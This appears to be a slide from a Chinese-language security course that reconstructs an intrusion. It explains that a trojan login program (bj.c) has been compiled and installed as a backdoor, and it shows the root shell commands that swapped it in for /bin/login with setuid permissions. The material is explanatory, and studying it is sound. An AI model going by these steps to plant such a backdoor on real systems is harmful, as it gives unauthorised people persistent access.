

6.6.3 现场重建
现在，已编译的后门程序已经成功实现了。/bin/login的有效拷贝被转移到/user/bin/xstat，而已编译的木马程序bj.c代替了/bin/login，这就是后门。木马程序允许任何人在VT9111的环境下通过term装置进行未授权访问。

[root@apollo /]# chown root:bin login
[root@apollo /]# chmod 4555 login
[root@apollo /]# chown u-w login
[root@apollo /]# cp /bin/login /usr/bin/xstat
cp: /bin/login: No such file or directory
[root@apollo /]# cp /bin/login /usr/bin/old
cp: /bin/login: No such file or directory
[root@apollo /]# rm /bin/login
rm: cannot remove ‘/bin/login’: No such file or directory
[root@apollo /]# chmod 555 /usr/bin/xstat
[root@apollo /]# chgrp bin /usr/bin/xstat
[root@apollo /]# mv login /bin/login